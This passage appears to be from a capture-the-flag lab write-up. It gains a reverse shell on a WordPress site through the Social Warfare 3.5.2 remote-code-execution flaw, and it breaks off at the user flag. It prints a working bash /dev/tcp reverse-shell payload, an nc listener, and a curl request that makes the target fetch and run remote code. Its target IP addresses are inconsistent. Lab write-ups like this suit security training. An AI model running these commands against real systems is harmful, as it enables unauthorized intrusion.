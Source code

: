 And I can conclude that the blog is vulnerable, and I can perform unauthenticated remote code execution.

## Exploitation
Reverse shell, reused password, and sudo privileges to get the root shell.

Given I access `http://192.168.56.105/wordpress/`, and although all resources are requested from the target `localhost`, and the IP is `192.168.2.12`, and I can redirect the requests from `192.168.12` to `192.168.56.105`, And the blog site uses the `Social Warfare 3.5.2 plugin`, and this plugin is vulnerable to unauthenticated remote code execution, then I can run a reverse shell.

When I use the following payload:
```shell
$ echo "<pre>system('bash -c \'bash -i >& /dev/tcp/192.168.56.101/1234
> 0>&1\'')</pre> " > rs.txt
```
And I open the `HTTP` service with Python3:
```shell
$ python3 -m http.server 8000
```
And I open the listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I make the following `GET` request:
```shell
$ curl "http://192.168.1.12/wordpress/wp-admin/admin-post.php?
> swp_debug=load_options&swp_url=http://192.168.56.101:8000/rs.txt"
```
Then I can get a reverse shell of the user `www-data`:

![evidence](./static/10-exploit-reverseshell.png)

When I explore the server., then I find the user flag:
